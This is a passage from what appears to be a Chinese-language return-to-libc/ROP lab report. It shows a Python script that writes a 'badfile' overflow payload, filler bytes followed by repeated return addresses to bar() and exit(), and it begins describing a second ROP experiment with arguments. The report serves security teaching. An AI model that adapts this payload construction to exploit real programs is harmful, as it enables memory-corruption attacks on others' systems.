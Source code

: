       # Fill content with non-zero values
      content = bytearray(0xaa for i in range(112))
      content += tobytes(0xFFFFFFFF)
      
      # foo*10
      for i in range(10):
        content += (bar_addr).to_bytes(4, byteorder="little")
      
      # exit()
      content += (exit_addr).to_bytes(4, byteorder="little")
      
      # Save content to a file
      with open("badfile", "wb") as f:
        f.write(content)
      ```
   
      结果如下：
   
      ![ROP_1_results](/img/posts/2023-11-20-Return_to_Libc实验报告/images/ROP_1_results.png)
   
   2. ROP攻击实验二（存在参数）
   
      思路：通过跳过前序操作来实现，每一次调用函数都会跳过其对ebp操作两个指令，从而ebp无法压栈，因此可以直接填入参数，函数执行完毕后ebp可以跳转到下一个函数位置（跳过前序操作），继续执行。
   
      构造python脚本如下：
   
      ```python
      #!/usr/bin/env python3
      import sys
      